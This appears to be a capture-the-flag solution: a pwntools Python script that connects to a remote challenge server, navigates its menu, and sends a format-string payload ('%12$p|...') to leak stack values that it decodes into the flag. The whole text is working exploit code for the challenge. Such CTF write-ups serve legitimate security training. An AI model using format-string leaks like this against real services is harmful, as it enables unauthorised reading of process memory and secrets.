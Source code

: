 ![image](https://github.com/gookoosss/CTF/assets/128712571/bd25dcb4-03bf-4e61-b045-b073461dd114)


```python
from pwn import *

p = remote('159.65.24.125', 31710)

p.sendlineafter(b'Name: ', b'b')
p.sendlineafter(b'Nickname: ', b'b')
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'%12$p|%13$p|%14$p|%15$p|%16$p|%17$p|%18$p|%19$p|%20$p|%21$p|%22$p')

flag = ''
p.recvuntil(b'this: \x1B[0m\n')
flag += str(p32(int(p.recv(10), 16)).decode())
for i in range(10):
    p.recvuntil(b'|')
    flag += str(p32(int(p.recv(10), 16)).decode())

print(flag)

p.interactive()
```
